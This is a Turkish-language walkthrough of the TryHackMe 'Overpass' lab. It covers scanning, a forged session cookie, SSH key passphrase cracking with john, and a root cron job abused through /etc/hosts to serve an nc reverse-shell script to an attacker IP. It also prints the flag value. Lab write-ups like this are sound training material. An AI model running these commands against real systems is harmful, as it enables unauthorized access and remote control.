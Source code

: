 ```yaml
---
title: Overpass
date: 2024-03-27 16:00:12 
categories: [TryHackMe]
tags: [Easy]
image: images/overpass.png
---
```


What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!


---

<a href="https://tryhackme.com/r/room/overpass">Overpass</a>

---


### User Flag

nmap komutu:

````console
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.162.238   
````

nmap sonucu:

````console
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 19:47 UTC
Nmap scan report for 10.10.162.238 (10.10.162.238)
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

22 SSH ve 80 HTTP servisleri çalışıyor.


Websitesini ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/1.png?raw=true)


Gobuster ile dizin taraması yapıyorum.

````console
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://10.10.162.238 -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.162.238
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

/admin dizininde login paneli var.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/2.png?raw=true)

SQLi işe yaramıyor. /aboutus sayfasındaki isimlerle brute force denedim fakat o da işe yaramadı.


Sayfanın kaynak kodlarını inceledim ve login.js dosyasını buldum.

````
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
````

Bu fonksiyonda, /api/login adresine bir post isteği gönderiliyor ve kimlik bilgileri doğruysa SessionToken adlı bir çerez oluşturuluyor.


SessionToken oluşturdum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/3.png?raw=true)

Saçma bir şekilde işe yaradı.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/4.png?raw=true)

James sürekli şifresini unuttuğu için (aynı ben) SSH key oluşturulmuş. 

Bir dosyaya kaydettim. ssh2john ile hash'ini alıp john ile şifreyi kırdım.

````console
┌──(root㉿kali)-[~/Desktop]
└─# ssh2john rsa > hash            
                                                                                                                                  
┌──(root㉿kali)-[~/Desktop]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (rsa)     
1g 0:00:00:00 DONE (2024-05-02 20:05) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
````

SSH ile makineye girebiliriz.

````console
┌──(root㉿kali)-[~/Desktop]
└─# ssh -i rsa james@10.10.162.238                       
Enter passphrase for key 'rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu May  2 20:06:39 UTC 2024

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.162.238
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
````

````console
james@overpass-prod:~$ pwd
/home/james
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
````

                      
### Root Flag

Makinede linpeas çalıştırıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/5.png?raw=true)


linpeas sonucunda bir cronjob dosyası olduğunu gördüm.

````console
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
````

buildscript.sh her dakika root yetkisiyle çalışıyor.

Ayrıca etc/hosts dosyasına yazma yetkimiz var.

etc/hosts dosyasını değiştirerek makinenin bana bağlanmasını sağladım, /downloads/src/buildscript.sh dosyası oluşturdum ve içine reverse shell kodu yazdım.

````
mkdir downloads
mkdir downloads/src
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.150 1234 >/tmp/f" > downloads/src/buildscript.sh
````

````
python3 -m http.server 80
````

````
nc -nvlp 1234
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/6.png?raw=true)


